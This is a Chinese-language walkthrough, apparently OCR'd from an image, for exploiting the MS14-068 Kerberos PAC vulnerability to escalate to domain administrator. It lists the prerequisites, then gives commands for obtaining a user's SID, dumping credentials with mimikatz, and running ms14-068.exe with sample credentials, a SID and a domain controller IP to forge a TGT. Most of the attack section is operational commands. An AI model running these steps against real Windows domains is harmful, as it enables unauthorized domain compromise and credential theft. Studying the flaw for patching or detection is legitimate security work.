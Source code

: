 利用条件：
* 域控没有打`MS14-068`的补丁(KB3011780)
* `拿下一台加入域的计算机`
* 有这台域内计算机的域用户密码和`Sid`

`MS14-068`是密钥分发中心（KDC）服务中的Windows漏洞。

 它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证.

利用方法：

1. 漏洞 `MS14068` (web admin权限)
获取当前用户的SID值，并上传MS14-068漏洞利用文件，然后执行生成攻击域控主机的`TGT`凭据

```bash
# 如果当前用户为域用户，可以直接用 `whoami /user` 获取sid
shell whoami/user
```

2. 运行 `mimikatz` 抓取密码和SID

```bash
* Username : test1
* Domain   : TEST.COM
* Password : Abcd1234!@#$
```

3. 生成认证证书

利用 `ms14-068.exe` 工具生成伪造的 `kerberos` 协议认证证书

```bash
 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域控ip
```

> 使用刚刚抓到的密码组合命令

```bash
# 组合指令
shell C:\Users\test1\Desktop\ms14-068.exe -u  test1@test.com  -p Abcd1234!@# -s S-1-5-21-1112871890-2494343973-3486175548-1103 -d 192.168.91.11
```
